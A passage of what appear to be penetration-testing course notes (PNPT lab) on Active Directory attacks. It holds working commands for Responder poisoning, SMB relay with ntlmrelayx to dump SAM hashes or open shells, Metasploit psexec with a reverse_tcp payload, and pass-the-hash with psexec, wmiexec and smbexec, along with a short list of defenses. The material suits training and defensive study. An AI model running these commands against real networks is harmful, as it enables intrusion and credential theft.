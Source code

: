 Run responder.
```bash
# Run responder
sudo responder -I tun0 -dwPv # -I is the interface
```
Setup another tool called `ntlmrelayx.py`. This tool is installed if the script `PimpMyKali` was used
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support # Dumps the SAM hashes.
sudo ntlmrelayx.py -tf targets.txt -smb2support -i # -i allows us to get an interactive shell. Use nc to connect to it. `nc 127.0.0.1 11000`
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami" # Run a command.
```
Wait for an event to occur.
If the hash relayed is one belonging to a local administrator then we will have a win.
The `ntlmrelayx.py` tool should dump the SAM hashes.
## SMB Relay Attacks Defenses
Enable SMB signing on all devices.
Disable NTLM authentication on network.
Account tiering.
Local admin restriction.
# Gaining Shell Access
There a couple way:
Using Metasploit - with a password, with a hash. This is a noisy way.
```bash
msf > search psexec
msf > use exploit/windows/smb/psexec
msf > options
# For password
msf > set rhost ip-here
msf > set smbdomain domain-here
msf > set smbuser user-here
msf > set smbpass password-here 
# For hash
msf > set smbuser local-user
msf > set smbpass LM:NT-hash-here
# The rest if for both methods
msf > set payload windows/x64/meterpreter/reverse_tcp
msf > show targets # it should be set to automatic, if there are issues try other ones
msf > run
msf > background # to send the session to the background and do other things
msf > sessions # view sessions
msf > sessions 1 # Bring sessions to the foreground
```
Using psexec - with a password
```bash
psexec.py marvel.local/fcastle:'Password1'@10.0.0.25
psexec.py MARVEL/fcastle:'Password1'@10.0.0.25
```
Using psexec - with a hash
```bash
psexec.py administrator@10.0.0.25 -hashes LM:NT # LM:NT is the hash
```
Using other tools.
These will work depending on the environment.
They will not work for the lab environment setup for the PNPT.
```bash
wmiexec.py administrator@10.0.0.25 -hashes LM:NT # LM:NT is the hash
smbexec.py administrator@10.0.0.25 -hashes LM:NT # LM:NT is the hash
```
# IPv6 Attacks
